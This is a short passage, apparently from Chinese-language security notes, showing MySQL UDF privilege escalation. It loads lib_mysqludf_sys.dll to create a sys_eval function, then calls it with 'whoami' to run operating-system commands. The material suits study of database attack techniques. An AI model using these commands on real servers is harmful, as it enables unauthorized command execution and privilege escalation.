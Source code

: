- 创建sys_eval函数，提权
```
create function sys_eval returns string soname 'lib_mysqludf_sys.dll';
```
![Alt text](../../cyber_security/images/image62.png)

- 调用函数进行提权
```
select sys_eval('whoami');
```